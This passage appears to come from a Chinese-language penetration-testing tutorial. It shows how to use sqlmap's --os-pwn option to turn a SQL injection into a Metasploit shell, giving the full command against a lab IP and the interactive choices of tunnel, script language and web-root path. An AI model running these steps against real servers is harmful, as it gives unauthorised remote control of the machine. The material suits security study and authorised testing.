 

![](https://img-blog.csdnimg.cn/20200507131934814.png)



### 反弹一个MSF的shell(--os-pwn)



在数据库为MySQL、PostgreSql或者SQL Server时，可以执行该选项。并且需要当前获取的权限足够高才可以。



```
sqlmap -u "http://192.168.10.20:88/index.php?id=1"  --os-pwn
```




![](https://img-blog.csdnimg.cn/20200501164437741.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**选择连接的tunnel，这里选择默认的 1 就可以了**  

\[1\] TCP: Metasploit Framework (default)  

\[2\] ICMP: icmpsh - ICMP tunneling  

\> 1



**选择网站的脚本语言，这里根据情况选择**  

\[1\] ASP  

\[2\] ASPX  

\[3\] JSP  

\[4\] PHP (default)  

\> 4



**选择网站的路径，这里也是根据情况而定，如果知道网站路径的话，可以选择2然后手动输入**  

\[1\] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)  

\[2\] custom location(s)  

\[3\] custom directory list file  

\[4\] brute force search  

\> 2  

please provide a comma separate list of absolute directory paths: C:\\phpstudy\\WWW



![](https://img-blog.csdnimg.cn/20200501164734737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

